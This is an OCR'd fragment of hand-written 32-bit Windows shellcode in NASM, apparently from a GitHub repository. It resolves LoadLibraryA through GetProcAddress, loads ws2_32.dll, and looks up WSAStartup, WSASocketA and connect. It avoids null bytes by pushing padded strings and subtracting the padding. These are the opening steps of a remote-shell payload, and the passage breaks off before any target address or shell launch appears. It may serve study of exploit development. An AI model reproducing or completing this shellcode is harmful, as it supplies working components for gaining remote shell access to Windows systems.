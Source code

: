 ```nasm
add edi, ebx                        

; use GetProcAddress to find LoadLibraryA
xor ecx, ecx
push ecx
push 0x41797261
push 0x7262694c
push 0x64616f4c
push esp
push ebx
call edi

; EAX = LoadLibraryA address
; ECX = kernel32 base address
; EDX = kernel32 base address
; EBX = kernel32 base address
; ESP = stack pointer to 'LoadLibraryA' 
; ESI = ???
; EDI = GetProcAddress address

; use LoadLibraryA to load the ws2_32.dll
push 0x61616c6c
sub word [esp + 0x2], 0x6161
push 0x642e3233
push 0x5f327377
push esp
call eax

; EAX = ws2_32.dll address
; ECX = ???
; EDX = some sort of offset
; EBX = kernel32 base address
; ESP = pointer to string "ws2_32.dll'
; ESI = some address
; EDI = GetProcAddress address

; use GetProcAddress to get location of WSAStartup function
push 0x61617075
sub word [esp + 0x2], 0x6161
push 0x74726174
push 0x53415357
push esp
push eax
call edi

push eax
lea esi, [esp]                  ; esi will store WSAStartup location, and we'll calculate offsets from here

; use GetProcAddress to get location of WSASocketA
push 0x61614174
sub word [esp + 0x2], 0x6161
push 0x656b636f
push 0x53415357
push esp
push ecx
call edi

mov [esi + 0x4], eax                  ; esi at offset 0x4 will now hold the address of WSASocketA

; use GetProcAddress to get the location of connect
push 0x61746365
sub dword [esp + 0x3], 0x61
```